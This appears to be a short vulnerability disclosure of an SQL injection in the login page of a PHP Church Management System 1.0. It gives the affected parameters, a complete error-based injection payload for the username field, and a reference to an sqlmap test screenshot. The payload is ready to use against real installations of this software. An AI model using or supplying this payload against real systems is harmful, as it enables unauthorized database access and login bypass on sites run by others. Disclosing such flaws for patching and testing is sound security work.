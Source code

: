 # Church Management System-SQL injections

### Date: 2022-08/06



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/11206/church-management-system.html



### Version: 1.0



### /login.php

> `username`、`password`Parameters have SQL injection

**payload**

```
login=Login&password=admin&username=' OR (SELECT 7064 FROM(SELECT COUNT(*),CONCAT(0x71627a7671,(SELECT (ELT(7064=7064,1))),0x716b707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jURL
```

**SQLMAP Test**

![image-20220806021440968](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220806021440968.png)
